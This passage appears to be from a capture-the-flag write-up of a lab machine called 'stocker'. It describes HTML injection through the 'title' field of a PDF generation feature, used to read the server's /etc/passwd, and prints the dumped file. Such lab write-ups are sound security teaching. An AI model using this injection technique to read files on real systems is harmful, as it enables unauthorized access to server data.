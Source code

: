 Probably the pdf generation function could be a possibile attack-vector: we can insert information from the stock to the pdf-file, we can recall the file from browser, etc. 

### PDF Generation Inject

After initial test we found that the field **"title"** is HTML inject-able... let's tray to grab some useful infomation..

![passwd-inject](assets/postimages/stocker/http-inject-pdf.png)

and the result...

![passwd](assets/postimages/stocker/passwd.png)

{% highlight shell %}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin